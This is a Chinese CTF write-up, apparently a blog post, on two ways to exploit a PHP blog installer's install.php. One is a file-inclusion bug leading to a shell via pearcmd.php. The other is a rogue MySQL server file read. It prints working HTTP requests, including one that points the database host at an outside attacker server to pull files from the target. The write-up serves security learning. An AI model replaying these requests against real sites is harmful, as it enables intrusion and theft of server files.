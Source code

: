 # 前言

当时没能做出来，当时想到了mysql恶意服务端读取文件，但是没能读成功，不知道是为什么。今天看到Firebasky师傅的github更新了writeup，也是学习了一波。



# 解法1

当时没有拿Seay去扫，单纯的自己肉眼审install.php。自己审这种前后端没有分离的代码，只会去看不涉及到前端的PHP代码，就出了问题，遗漏了漏洞。

拿Seay扫一下第一条就能扫到，install.php608行的这个文件包含漏洞：

```php
                            <?php require_once './install/' . $type . '.php'; ?>
```

但是只能包含php文件，解法一就是上一篇学习的用pearcmd.php实现getshell了，就不多说了。



# 解法2

就是mysql恶意服务端读取文件这个利用姿势了，确实是可以读到的，可是我当时没有成功，看了wp才知道原来是因为默认用的是Pdo：

```http
POST /install.php?config HTTP/1.1
Host: www.nt0day.com
Content-Length: 246
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.nt0day.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://www.nt0day.com/install.php?config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __typecho_lang=zh_CN
Connection: close

dbAdapter=Pdo_Mysql&dbHost=localhost&dbPort=3306&dbUser=root&dbPassword=root&dbDatabase=typecho&dbCharset=utf8&dbPrefix=typecho_&userUrl=http%3A%2F%2Fwww.nt0day.com&userName=admin&userPassword=123&userMail=webmaster%40yourdomain.com&action=config
```

仔细看一下这个代码，虽然install的时候只给了mysql的pdo和sqlite的pdo，但是还是支持别的类型：

```php
            <?php elseif (isset($_GET['config'])): ?>
            <?php
                    $adapters = array('Mysql', 'Mysqli', 'Pdo_Mysql', 'SQLite', 'Pdo_SQLite', 'Pgsql', 'Pdo_Pgsql');
                    foreach ($adapters as $firstAdapter) {
                        if (_p($firstAdapter)) {
                            break;
                        }
                    }
                    $adapter = _r('dbAdapter', $firstAdapter);
                    $parts = explode('_', $adapter);

                    $type = $adapter == 'Mysqli' ? 'Mysql' : array_pop($parts);
            ?>
```

当时的我不知道这个：

- mysql client (pwned)
- php mysqli (pwned，fixed by 7.3.4)
- php pdo (默认禁用)
- python MySQLdb (pwned)
- python mysqlclient (pwned)
- java JDBC Driver (pwned，部分条件下默认禁用)
- navicat （pwned)

PDO是默认不能被攻击的，而mysql和mysqli(7.3.4以前)默认都是可读的，所以应该改成Mysql或者Mysqli：

```http
POST /install.php?config HTTP/1.1
Host: www.nt0day.com
Content-Length: 248
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.nt0day.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://www.nt0day.com/install.php?config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __typecho_lang=zh_CN;XDEBUG_SESSION=PHPSTORM
Connection: close

dbAdapter=Mysqli&dbHost=121.5.169.223&dbPort=33306&dbUser=root&dbPassword=root&dbDatabase=typecho&dbCharset=utf8&dbPrefix=typecho_&userUrl=http%3A%2F%2Fwww.nt0day.com&userName=admin&userPassword=123&userMail=webmaster%40yourdomain.com&action=config
```

即可成功利用。